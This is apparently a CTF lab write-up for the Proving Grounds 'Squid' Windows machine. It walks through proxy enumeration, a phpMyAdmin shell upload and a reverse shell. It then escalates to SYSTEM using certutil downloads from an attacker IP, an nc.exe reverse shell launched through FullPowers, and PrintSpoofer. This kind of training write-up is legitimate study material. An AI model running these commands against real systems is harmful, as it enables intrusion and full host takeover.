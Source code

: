 ```yaml
---
title: "Proving Grounds - Squid"
categories: [CTF, Proving Grounds - Play]
tags: [EASY, Windows, Web, Squid, OSCP]
mermaid: true
image: ../assets/img/provingrounds/oscp.png
---
```


Squid was a challenging box that involved utilizing a Squid proxy to discover internal services, exploiting a phpMyAdmin file upload vulnerability to gain initial access, and then escalating privileges using Windows-specific techniques.

The process included using spose to identify internal services, leveraging the proxy to access a WampServer, and ultimately using FullPowers.exe and PrintSpoofer to gain SYSTEM access. 

This machine was a great way to practice working with proxy configurations and Windows privilege escalation.

# Diagram

```mermaid
graph TD
    A[Host Enumeration]
    A -->|Nmap Scan| B[Identify Squid Proxy]
    B -->|Explore Proxy Configuration| C[Tool: spose]
    C -->|Identify Internal Services| D[Web Service on 8080]
    D -->|Access WampServer| E[Identify phpMyAdmin]
    E -->|Bypass Authentication| F[Upload PHP Shell]
    F -->|Execute Reverse Shell| G[WinPEAS Enumeration]
    G -->|Identify Privilege Escalation| H[Leverage FullPowers.exe]
    H -->|Enable SeImpersonatePrivilege| I[Use PrintSpoofer]
    I -->|Privilege Escalation to SYSTEM| J[Obtain Root Access]
    J -->|Capture Evidence| K[Success]
```


## Information Gathering

### Port Scan
---

- `nmap -sS -Pn -n -T4 192.168.217.189` -p 135,139,445,3128
    
    ![Untitled](../assets/img/oscp/Squid/Untitled.png)
    
- `nmap -sVC -p 135,139,445,3128 -n -Pn 192.168.217.189 -v`
    
    ![Untitled](../assets/img/oscp/Squid/Untitled%201.png)
    

## Enumeration


### HTTP 80

---

- [http://192.168.217.189:3128/](http://192.168.217.189:3128/) → Apparently the website uses **squid/4.14**
    
    ![Untitled](../assets/img/oscp/Squid/Untitled%202.png)
    

Squid is a caching and forwarding HTTP web proxy. It reduces bandwidth and improves response times by **caching** and reusing frequently-requested web pages. 

This is the squid repo https://github.com/squid-cache/squid 

I was searching in the GitHub, etc., but nothing worked. So i decided to try this: 

[https://book.hacktricks.xyz/network-services-pentesting/3128-pentesting-squid](https://book.hacktricks.xyz/network-services-pentesting/3128-pentesting-squid)

- `curl --proxy http://192.168.217.189:3128 http://192.168.45.227` →  *Directory Listening in my own machine*
    
    ![Untitled](../assets/img/oscp/Squid/Untitled%203.png)
    

So after a while i decided to try this tool https://github.com/aancw/spose.git 

- `python spose.py --proxy http://192.168.45.227:3128 --target 192.168.45.227`
    
    ![Untitled](../assets/img/oscp/Squid/Untitled%204.png)
    

Ok, verifying if it’s an web page running in 8080

- `curl --proxy http://192.168.217.189:3128 http://192.168.217.189:8080`
    
    ![Untitled](../assets/img/oscp/Squid/Untitled%205.png)
    

Now setting up an http proxy with the extension Proxy Switcher [https://chrome.google.com/webstore/detail/proxy-switcher-and-manage/onnfghpihccifgojkpnnncpagjcdbjod?ref=benheater.com](https://chrome.google.com/webstore/detail/proxy-switcher-and-manage/onnfghpihccifgojkpnnncpagjcdbjod?ref=benheater.com) 

- `proxy swithcer`
    
    ![Untitled](../assets/img/oscp/Squid/Untitled%206.png)
    

And now trying to access it

- [http://192.168.237.189:8080/](http://192.168.237.189:8080/) → It’s a WampServer 3.2.3 - 64bit
    
    ![Untitled](../assets/img/oscp/Squid/Untitled%207.png)
    
- [http://192.168.237.189:8080/phpsysinfo/index.php?disp=bootstrap](http://192.168.237.189:8080/phpsysinfo/index.php?disp=bootstrap)
    
    ![Untitled](../assets/img/oscp/Squid/Untitled%208.png)
    
- [http://192.168.237.189:8080/phpmyadmin/index.php](http://192.168.237.189:8080/phpmyadmin/index.php) → login panel MySQL - tried default creds (root:)
    
    ![Untitled](../assets/img/oscp/Squid/Untitled%209.png)
    
    ![Untitled](../assets/img/oscp/Squid/Untitled%2010.png)
    

Verifying some documentation about phpMyAdmin...

[https://www.hackingarticles.in/shell-uploading-web-server-phpmyadmin/](https://www.hackingarticles.in/shell-uploading-web-server-phpmyadmin/) 

[https://gist.github.com/BababaBlue/71d85a7182993f6b4728c5d6a77e669f](https://gist.github.com/BababaBlue/71d85a7182993f6b4728c5d6a77e669f) 

- [http://192.168.237.189:8080/phpmyadmin/db_sql.php?db=hendrich_schema](http://192.168.237.189:8080/phpmyadmin/db_sql.php?db=hendrich_schema)
    
    ![Untitled](../assets/img/oscp/Squid/Untitled%2011.png)
    
    ![Untitled](../assets/img/oscp/Squid/Untitled%2012.png)
    
- [http://192.168.237.189:8080/uploader.php](http://192.168.237.189:8080/uploader.php)
    
    ![Untitled](../assets/img/oscp/Squid/Untitled%2013.png)
    

Reverse shell must be for windows

[https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php)

- [http://192.168.237.189:8080/php_reverse_shell.php](http://192.168.237.189:8080/php_reverse_shell.php)
- `sudo  rlwrap nc -lvnp 80` → Nt authorithy
    
    ![Untitled](../assets/img/oscp/Squid/Untitled%2014.png)
    

- `flag`
    
    ![Untitled](../assets/img/oscp/Squid/Untitled%2015.png)
    

## Priv Escalation

---

The first thing that i want to do is revoke all firewalls. I’ve tried but the user don’t have permission.

So after a while i decided to put winPEAS inside the machine

- `certutil.exe -urlcache -f http://192.168.45.227/winPEASx64.exe winPEASx64.exe`
    
    ![Untitled](../assets/img/oscp/Squid/Untitled%2016.png)
    
- `winPEASx64.exe` → *Apparently* [https://exploit-db.com/exploits/46718](https://exploit-db.com/exploits/46718) *- CVE-2019-0836* [https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/leaked-handle-exploitation](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/leaked-handle-exploitation)
    
    ![Untitled](../assets/img/oscp/Squid/Untitled%2017.png)
    
    ![Untitled](../assets/img/oscp/Squid/Untitled%2018.png)
    
    ![Untitled](../assets/img/oscp/Squid/Untitled%2019.png)
    
    ![Untitled](../assets/img/oscp/Squid/Untitled%2020.png)
    

Ok, nothing worked, but after enumerate, and after i saw that i was an nt authority but with “local service’

- `whoami`
    
    ![Untitled](../assets/img/oscp/Squid/Untitled%2021.png)
    

I found this [https://itm4n.github.io/localservice-privileges/?ref=benheater.com](https://itm4n.github.io/localservice-privileges/?ref=benheater.com) After read the article i found that he did an script [https://github.com/itm4n/FullPowers/releases](https://github.com/itm4n/FullPowers/releases)

- `certutil.exe -urlcache -f http://192.168.45.227/FullPowers.exe FullPowers.exe`
    
    ![Untitled](../assets/img/oscp/Squid/Untitled%2022.png)
    
- `FullPowers.exe -c "C:\Users\Public\Documents\nc.exe 192.168.45.227 4430 -e cmd" -z`
`sudo rlwrap nc -lvnp 4430`
    
    ![Untitled](../assets/img/oscp/Squid/Untitled%2023.png)
    

- `whoami /priv` → Now i’ve SeImpersoantePrivilage enabled
    
    ![Untitled](../assets/img/oscp/Squid/Untitled%2024.png)
    

So i’ll use the https://github.com/itm4n/PrintSpoofer/releases

- `certutil.exe -urlcache -f http://192.168.45.227/PrintSpoofer64.exe PrintSpoofer64.exe`
    
    ![Untitled](../assets/img/oscp/Squid/Untitled%2025.png)
    

- `PrintSpoofer64.exe -i -c cmd` → Priv escalado
    
    ![Untitled](../assets/img/oscp/Squid/Untitled%2026.png)
    

- `flag`
    
    ![Untitled](../assets/img/oscp/Squid/Untitled%2027.png)